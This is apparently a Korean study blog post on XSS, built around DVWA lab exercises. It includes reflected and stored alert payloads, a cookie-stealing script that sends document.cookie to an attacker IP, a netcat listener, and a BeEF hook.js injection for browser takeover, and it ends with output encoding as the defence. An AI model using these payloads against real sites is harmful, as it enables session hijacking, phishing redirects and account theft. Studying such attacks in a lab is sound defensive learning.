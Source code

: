 ```yaml
---
layout: post
title: "XSS (Cross-Site Scripting) 공부"
date: 2025-09-15 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

XSS(Cross-Site Scripting)는 공격자가 웹 애플리케이션에 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 해당 스크립트가 실행되도록 만드는 공격이다. 이 공격은 [A03: Injection](https://hamap0.github.io/projects/owasp-top-10/2025/08/27/A03_Injection.html) 보고서에서 다룬 인젝션 공격의 한 종류이며 취약점 존재 증명이나 세션 쿠키 탈취 등 다양한 목적으로 사용될 수 있다.

---

### 2. 기본 유형 및 실습

#### **Reflected XSS (반사형)**
공격 스크립트가 URL 파라미터 등을 통해 서버로 전달된 후, 서버가 그 값을 응답 페이지에 그대로 포함하여 사용자에게 돌려줄 때 발생한다.

*   **DVWA 실습:**
    `XSS (Reflected)` 페이지에서 `name` 파라미터 값으로 `<script>alert('Reflected XSS')</script>`를 주입하면 서버 응답에 이 스크립트가 포함되어 경고창이 실행된다.

    [여기에 Reflected XSS 공격 성공 화면 스크린샷 삽입]

#### **Stored XSS (저장형)**
공격 스크립트가 게시판이나 방명록처럼 서버의 데이터베이스에 영구적으로 저장될 때 발생한다. 해당 페이지를 방문하는 모든 사용자가 공격의 영향을 받는다.

*   **DVWA 실습:**
    `XSS (Stored)` 페이지의 방명록에 `<script>alert('Stored XSS')</script>`를 포함한 메시지를 남기면 해당 스크립트가 데이터베이스에 저장된다. 이후 이 페이지를 방문하는 모든 사용자의 브라우저에서 경고창이 실행된다.

    [여기에 Stored XSS 공격 성공 화면 스크린샷 삽입]

---

### 3. 심화 활용: 쿠키 탈취

XSS 취약점은 사용자의 세션 쿠키를 탈취하여 계정을 도용하는 세션 하이재킹 공격에 사용될 수 있다.

#### **1. 공격자 리스너**
탈취한 쿠키를 수신하기 위해 공격자 PC에 서버가 필요하다. [보안 분석을 위한 리눅스 명령어 공부](https://hamap0.github.io/study/시스템-해킹/2025/09/14/보안-분석을-위한-리눅스-명령어-공부.html)에서 다룬 `netcat`을 이용해 특정 포트에서 연결을 대기하는 리스너를 실행할 수 있다.
```bash
# 80번 포트에서 연결을 대기하며 상세 정보를 출력
sudo nc -lvnp 80
```

#### **2. 쿠키 탈취 페이로드**
피해자의 브라우저에서 `document.cookie` 값을 읽어와 공격자 서버 `192.9.200.12`로 전송하는 스크립트이다.
```javascript
<script>
  document.location='http://192.9.200.12/?cookie=' + btoa(document.cookie);
</script>
```
*   `btoa()`: 쿠키 값에 포함될 수 있는 특수문자로 인해 URL이 깨지는 것을 방지하기 위해 Base64로 인코딩한다.

#### **3. 결과 확인**
이 페이로드를 Stored XSS 취약점이 있는 방명록에 삽입하면 해당 페이지를 방문하는 사용자의 브라우저는 스크립트를 실행한다. 그 결과 공격자의 `netcat` 리스너에는 피해자의 쿠키 값이 포함된 HTTP GET 요청이 수신된다.

[여기에 쿠키 값이 수신된 netcat 터미널 스크린샷 삽입]

### 4. 심화 활용 2: 브라우저 제어권 획득 (BeEF 연동)

XSS 공격의 파급력은 쿠키 탈취에 그치지 않는다. **BeEF(The Browser Exploitation Framework)**와 연동하면 피해자의 브라우저를 좀비처럼 제어하여 추가 공격을 수행할 수 있다.

#### **1. BeEF 실행 및 Hook URL 확인**
1.  공격자 PC에서 BeEF 프레임워크를 실행한다.
    ```bash
    sudo beef-xss
    ```
2.  BeEF의 관리자 페이지(UI)에 접속하여 로그인한다.
3.  관리자 페이지에 표시된 **Hook URL** (예: `<script src="http://192.9.200.12:3000/hook.js"></script>`)을 복사한다. 이 스크립트가 피해자의 브라우저를 제어하는 핵심 코드이다.

#### **2. Hook 스크립트 주입**
1.  복사한 Hook URL 스크립트 전체를 Stored XSS 취약점이 있는 DVWA 방명록에 삽입하고 게시글을 등록한다.

#### **3. 브라우저 Hooking 및 제어**
1.  피해자가 해당 방명록 페이지를 방문하면 브라우저는 자신도 모르게 **`hook.js`** 스크립트를 실행하고 공격자의 BeEF 서버에 연결된다.
2.  공격자는 BeEF 관리자 페이지의 `Online Browsers` 목록에서 연결된 피해자의 브라우저(Hooked Browser)를 확인할 수 있다.
3.  공격자는 `Commands` 탭의 다양한 모듈을 사용하여 피해자 브라우저를 대상으로 추가 공격을 수행할 수 있다.
    *   **Get Cookies**: 피해자의 쿠키 정보를 가져온다.
    *   **Redirect Browser**: 피해자의 브라우저를 특정 피싱 사이트로 강제 이동시킨다.
    *   **Create Alert Dialog**: 피해자의 화면에 임의의 경고창을 띄운다.

---

### 5. 방어 방안: 출력 인코딩

XSS 공격의 근본적인 원인은 사용자가 입력한 데이터를 서버가 그대로 HTML의 일부로 해석하여 출력하기 때문이다. 이를 막는 가장 효과적인 방법은 **출력 인코딩(Output Encoding)**이다.

사용자가 입력한 문자열에 포함된 `<`, `>` 같은 특수문자를 브라우저가 HTML 태그로 해석하지 못하도록 아래와 같이 안전한 문자(HTML Entities)로 변환하여 출력해야 한다.
*   `<` → `&lt;`
*   `>` → `&gt;`

이렇게 인코딩된 문자열은 브라우저 화면에는 원래의 꺾쇠 기호로 보이지만 HTML 파서는 이를 태그의 시작과 끝이 아닌 단순한 텍스트로만 인식하므로 스크립트가 실행되지 않는다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **이미지 1 제작 (Reflected XSS)**

1.  웹 브라우저에서 DVWA의 `XSS (Reflected)` 페이지로 이동합니다.
2.  입력창에 `<script>alert('Reflected XSS')</script>`를 입력하고 `Submit` 버튼을 클릭합니다.
3.  화면에 "Hello" 라는 문구와 함께 자바스크립트 경고창(alert)이 나타납니다.
4.  이 상태의 브라우저 화면 전체를 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
6.  두 부분에 하이라이트를 적용합니다.
    *   **원인:** 브라우저 주소창의 URL에 포함된 스크립트 구문 (`?name=<script>...`)
    *   **결과:** 화면 중앙에 나타난 경고창(`Reflected XSS`)
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 2 제작 (Stored XSS)**

1.  DVWA의 `XSS (Stored)` 페이지로 이동합니다.
2.  `Message` 입력창에 `<script>alert('Stored XSS')</script>`를 포함한 내용을 입력하고 `Sign Guestbook` 버튼을 클릭합니다.
3.  페이지가 새로고침되면서 방금 제출한 스크립트가 실행되어 경고창이 나타납니다.
4.  방명록 목록에 스크립트가 포함된 게시글이 보이고 동시에 경고창이 떠 있는 화면 전체를 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
6.  두 부분에 하이라이트를 적용합니다.
    *   **원인:** 방명록에 저장되어 출력된 스크립트가 포함된 게시글
    *   **결과:** 그로 인해 실행된 경고창(`Stored XSS`)
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 3 제작 (쿠키 값 수신)**

1.  (준비) **공격자 PC의 터미널**과 **피해자의 웹 브라우저**를 준비합니다.
2.  **공격자 PC 터미널**에서 `sudo nc -lvnp 80` 명령어를 실행하여 리스너를 시작합니다.
3.  **피해자의 웹 브라우저**에서 DVWA의 `XSS (Stored)` 페이지로 이동하여 쿠키 탈취용 `<script>` 페이로드를 방명록에 입력하고 `Sign Guestbook` 버튼을 클릭합니다.
4.  **공격자 PC 터미널**을 확인하면 브라우저로부터의 HTTP 요청이 수신되어 아래와 같은 텍스트가 출력됩니다.
    ```
    GET /?cookie=c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9... HTTP/1.1
    Host: 192.9.200.12
    ...
    ```
5.  이 HTTP 요청 정보가 모두 출력된 **공격자 PC 터미널** 화면 전체를 스크린샷으로 찍습니다.
6.  이미지 편집 프로그램을 사용하여 `/?cookie=` 뒤에 따라오는 Base64로 인코딩된 긴 문자열 부분에 명확하게 하이라이트를 적용합니다.
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 4 제작 (BeEF 연동 성공)**

이 이미지는 Stored XSS를 통해 피해자의 브라우저 제어권을 획득한 상황을 보여준다.

1.  **BeEF 관리자 페이지 캡처:**
    *   `4. 심화 활용 2`의 3단계 과정에서, 피해자의 브라우저가 `Online Browsers` 목록에 나타난 BeEF 관리자 페이지 화면을 스크린샷으로 찍는다.
2.  **명령 실행 결과 캡처:**
    *   `Commands` 탭에서 `Get Cookies`나 `Create Alert Dialog` 같은 간단한 명령을 실행하고, 그 결과가 표시된 화면을 스크린샷으로 찍는다.
3.  **최종 이미지 편집:**
    *   두 개의 스크린샷을 하나로 합치거나, 가장 핵심적인 화면(피해자 브라우저가 목록에 나타난 화면)을 선택한다.
    *   이미지에서 `Online Browsers` 목록에 나타난 피해자의 IP 주소와 OS/브라우저 아이콘에 명확한 하이라이트를 적용한다.
    *   만약 명령 실행 결과 이미지를 사용한다면, 실행한 `Module Name`과 그 `Command Results` 부분에 하이라이트를 적용한다.
    *   수정된 이미지를 게시글에 삽입한다.